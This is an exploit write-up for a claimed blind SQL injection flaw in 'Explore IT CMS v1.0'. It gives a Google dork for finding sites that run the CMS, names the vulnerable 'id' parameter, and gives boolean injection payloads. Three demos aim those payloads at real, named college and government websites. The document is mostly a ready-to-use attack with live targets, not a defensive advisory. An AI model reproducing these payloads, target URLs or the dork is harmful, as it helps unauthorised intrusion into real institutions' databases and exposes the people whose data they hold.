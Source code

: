 *********************************************************
# Exploit Title: Explore IT CMS v1.0 - Blind SQL Injection Vulnerability
Google Dork: "Technical Assistance by: explore IT"

Tested On: Windows 11 + Firefox / Burp Suite

*********************************************************

[+]:
Vulnerable Parameter:
`id` in URLs with `.php?id=`
Append `' and 1=1--+` and `' and 1=2--+` to the URL and observe the difference in responses.

*********************************************************

### Demo 1:

```
https://kachalonggovtcollege.edu.bd/page.php?id=2  
→ https://kachalonggovtcollege.edu.bd/page.php?id=2'+AND+1=1--+
→ https://kachalonggovtcollege.edu.bd/page.php?id=2'+AND+1=2--+
```

### Demo 2:
```
https://www.rangamaticollege.gov.bd/page.php?id=13  
→ https://www.rangamaticollege.gov.bd/page.php?id=13'+AND+1=1--+
→ https://www.rangamaticollege.gov.bd/page.php?id=13'+AND+1=2--+
```

### Demo 3:
```
https://www.cgsacollege.edu.bd/page.php?id=3  
→ https://www.cgsacollege.edu.bd/page.php?id=3'+AND+1=1--+
→ https://www.cgsacollege.edu.bd/page.php?id=3'+AND+1=2--+
```



*********************************************************

[+] Google Dork:
"Technical Assistance by: explore IT"

*********************************************************